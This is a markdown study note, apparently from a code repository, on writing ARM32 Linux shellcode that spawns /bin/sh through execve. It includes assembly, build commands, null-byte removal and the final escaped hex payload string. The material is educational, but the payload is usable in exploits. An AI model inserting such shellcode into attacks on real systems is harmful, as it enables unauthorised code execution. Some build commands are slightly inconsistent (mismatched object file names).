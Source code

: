 # ARM shellcode for launching a shell
##### arm32 asm
https://github.com/azeria-labs/ARM-assembly-examples/

`int  execve(const char *filename, char *const argv [], char *const envp[]);`

```
.section .text
.global _start

_start:
        add r0, pc, #12     @r0 = pc + 12 ("/bin/sh\0")
        mov r1, #0          @pass NULL into the argv[]
        mov r2, #0          @pass NULL into the envp[]
        mov r7, #11         @11 is syscall number of execve on linux arm
        svc #0

.ascii "/bin/sh\0"
```
# Banana skin
Why `pc + 12`?  Effective PC starts two instructions ahead of the current one. Great details here: https://azeria-labs.com/arm-data-types-and-registers-part-2/

##### Compile for arm32 on arm32 host
```
arm-linux-gnueabi-as -c execve.s -o execve.o && arm-linux-gnueabi-ld tiny.o -o tiny
```
##### Runtime
```
$ ./tiny
$ exit              <-- new shell
user@arm64:~$       <-- original shell
```
##### Remove Null bytes
```
$ objdump -d tiny.o
```
Move shellcode to `thumb` mode.

```
14:	6e69622f 	.word	0x6e69622f
18:	0068732f 	.word	0x0068732f
```
What is the final **00**?

If you convert the swap the byte order (`arm` defaults to `little endian`) you can decode..
```
14:	6e69622f 	.word	0x6e69622f    // /bin
18:	0068732f 	.word	0x0068732f    // /sh\0

```
This requires a new linker flag to work.

`arm-linux-gnueabi-as tiny.s -o tiny.o && arm-linux-gnueabi-ld -N tiny.o -o tiny`

##### Change to hex string
```
$ objcopy -O binary tiny tiny.bin       
$ hexdump -v -e '"\\""x" 1/1 "%02x" ""' tiny.bin
\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78
```
##### References
```
https://azeria-labs.com/writing-arm-shellcode/
http://www.kernel-panic.it/security/shellcode/shellcode5.html
http://shell-storm.org/blog/Shellcode-On-ARM-Architecture/
https://modexp.wordpress.com/2017/01/21/shellcode-osx/
```
